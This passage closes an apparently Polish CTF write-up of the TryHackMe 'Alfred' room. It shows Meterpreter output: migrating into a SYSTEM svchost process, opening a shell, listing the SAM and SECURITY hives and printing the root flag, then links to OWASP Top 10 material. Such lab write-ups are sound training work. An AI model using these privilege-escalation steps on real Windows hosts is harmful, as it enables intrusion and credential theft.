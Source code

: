 ```
 2708  404   powershell.exe        x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 2992  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe

meterpreter > migrate 668
[*] Migrating from 1380 to 668...
[*] Migration completed successfully.
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 2548 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd C:\Windows\System32\config
cd C:\Windows\System32\config

C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E033-3EDD

 Directory of C:\Windows\System32\config

06/25/2023  06:28 PM    <DIR>          .
06/25/2023  06:28 PM    <DIR>          ..
10/25/2019  10:46 PM            28,672 BCD-Template
06/25/2023  06:38 PM        18,087,936 COMPONENTS
06/25/2023  06:38 PM           262,144 DEFAULT
07/14/2009  03:34 AM    <DIR>          Journal
10/25/2019  09:58 PM    <DIR>          RegBack
10/26/2019  12:36 PM                70 root.txt
06/25/2023  06:27 PM           262,144 SAM
06/25/2023  06:37 PM           262,144 SECURITY
06/25/2023  06:37 PM        38,797,312 SOFTWARE
06/25/2023  06:41 PM        10,485,760 SYSTEM
11/21/2010  03:41 AM    <DIR>          systemprofile
10/25/2019  09:47 PM    <DIR>          TxR
               8 File(s)     68,186,182 bytes
               6 Dir(s)  20,525,461,504 bytes free

C:\Windows\System32\config>type root.txt
type root.txt
dff0f748678f280250f25a45b8046b4a
```

#### Jak wspominałem na początku do napisanie tego `repozytorium` zmotywoała mnie "luka" opisywana w `OWASP TSop 10`. Dla zainteresowanych TryHackMe posiada dwa pokoje poświęcone czym jest `OWASP Top 10`:
##### [OWASP Top 10 - 2021](https://tryhackme.com/room/owasptop102021) Task 12, [OWASP Top 10](https://tryhackme.com/room/owasptop10) Task 19.
##### [Opis podatności wg. OWASP](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
